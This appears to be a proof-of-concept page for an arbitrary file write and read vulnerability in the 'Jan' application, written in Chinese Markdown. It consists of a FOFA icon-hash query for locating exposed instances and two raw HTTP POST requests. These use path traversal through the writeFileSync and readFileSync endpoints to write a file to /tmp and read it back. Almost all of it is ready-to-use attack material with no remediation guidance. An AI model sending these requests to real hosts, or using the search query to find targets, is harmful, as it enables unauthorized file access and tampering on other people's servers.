 ## Jan任意文件上传漏洞

## fofa
```
icon_hash="-165268926"
```
![image](https://github.com/user-attachments/assets/7bbbf7ae-cca2-48cb-abe1-22b101057d16)


## poc
```
POST /v1/app/writeFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 35
Origin: http://<IP>:<Port>
Connection: close

["/../../../../../tmp/a.txt","abc"]


POST /v1/app/readFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../tmp/a.txt","utf-8"]
```
![image](https://github.com/wy876/POC/assets/139549762/0558b716-4096-4789-a8cb-2bcebab4a009)

![image](https://github.com/wy876/POC/assets/139549762/a6bb5774-5e79-4b2a-86a7-e2a60b333fa9)


